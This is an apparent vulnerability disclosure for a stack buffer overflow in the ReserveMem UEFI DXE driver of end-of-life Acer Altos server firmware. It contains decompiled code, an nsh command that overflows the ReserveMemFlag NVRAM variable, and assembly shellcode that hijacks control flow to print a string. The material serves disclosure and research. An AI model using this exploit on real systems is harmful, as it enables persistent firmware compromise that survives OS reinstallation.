 There is a stack buffer overflow vulnerability, which could lead to **arbitrary code execution in UEFI DXE driver** in the latest firmware of Acer's Altos servers. And all these affecting models are already end of life. So we decided to disclose the detail.

## Summary

Previously, we did a lot of research in existing works in UEFI security, an example is that Binarly-IO found a lot of vulnerabilities since last years. And there is also a paper in S&P2022 mainly focused on SMM callout vulnerabilities. We believe that the security of UEFI ecosystem remains construction, so we started to do some trivial works. 

This vulnerability is similar to our [another one](https://github.com/10TG/vulnerabilities/tree/main/Acer/CVE-2022-30426),which exists due to the incorrect use of the `gRT->GetVariable` service in driver `ReserveMem`.

Affecting models: Altos W2000h-W570h F4, the latest update in 2019.02.13

## Vulnerability Description

Vulnerability exists in function located offset `0x32c` in `ReserveMem`.

The latest firmware can be downloaded here: https://global-download.acer.com/GDFiles/BIOS/BIOS/BIOS_Acer_R01.03.0018_A_A.zip

```C
__int64 __fastcall sub_32C(__int64 a1, __int64 a2)
{
  ... ...
  // v18 is at offset 0x28 the parent funciton's ret address
  __int64 v18; // [rsp+EE0h] [rbp+DE0h]  
  DataSize = 1827i64;  // There is a hardcode datasize
  // the omitted code haven't change the "DataSize"
  ... ...
  // DataSize > sizeof(v18), which can cause stack overflow.
  if ( gRT->GetVariable(aReservememflag, &gSetupVariableGuid, 0i64, &DataSize, &v18) || (_BYTE)v19 != (_BYTE)v18 )
  
  ... ...
  return 0i64;
}
```

The DataSize parameter is bigger than the buffer and can overwrite the return address. We can make use of it by update the value of the NVARM variable `ReserveMemFlag`.

## Vulnerability Analysis

We have write a PoC script, that  overwrites the return address to "AAAA".

Before we run the exploit, use the EmulatorPKG build from EDK2, and simply load the driver.

We can simply use a `nsh` script to set the variable value:

```nsh
setvar ReserveMemFlag -guid ec87d643-eba4-4bb5-a1e5-3f3e36b20da9 -bs -rt -nv =4141414141414141...4141414141414141
```

After running the script, the variable `ReserveMemFlag` has been set to a large string full of "AAAA". 

Using gdb to debug, we can see that when the entry function of the driver trys to return, the return address has been overflowed to our payload.

And because the variable is stored in the NVRAM, the next time we try to load the driver, the shellcode will still be triggered thus cause a exception.

![](./CVE-2022-41415.assets/CVE-2022-41415-crash.png)

Since we can control the **RIP**, we can further write shellcode in the stack. There isn't ALSR or NX in UEFI DXE phase, so it's quite simple to construct the shellcode to perform a call to `ConOut->OutputString`.

Our shellcode is as following.

```assembly
mov eax, 0x79ee018  ; SystemTable
mov edx, 0x0a
mov r8, [rax+0x40]  ; SystemTable->ConOut
mov rcx, r8
call [r8+0x28]      ; SystemTable->ConOut->SetAttribute
mov eax, 0x79ee018
mov edx, 0x7e2c47a   ; The string need to Output
mov r8, [rax+0x40]
mov rcx, r8
call [r8+0x8]       ; SystemTable->ConOut->OutputString
ret
db "Pwned by 10TG", 0x0 ; UTF-16LE
```

Run the script to set variable and load the driver; we can see that the control flow is hijacked and we successfully print a string.

![](./CVE-2022-41415.assets/CVE-2022-41415-poc.gif)

In conclusion, an attack can exploit this vulnerability to **execute arbitrary code**.

A **malicious code can be installed** which could **survive across an operating system (OS) boot process** and modify NVRAM area in SPI flash storage (to gain persistence on target platform).

## Credit

This vulnerability credited to [river-li](https://github.com/river-li)(Zichuan Li) and [cft789](https://github.com/cft789)(Fangtao Cao) from Wuhan University.

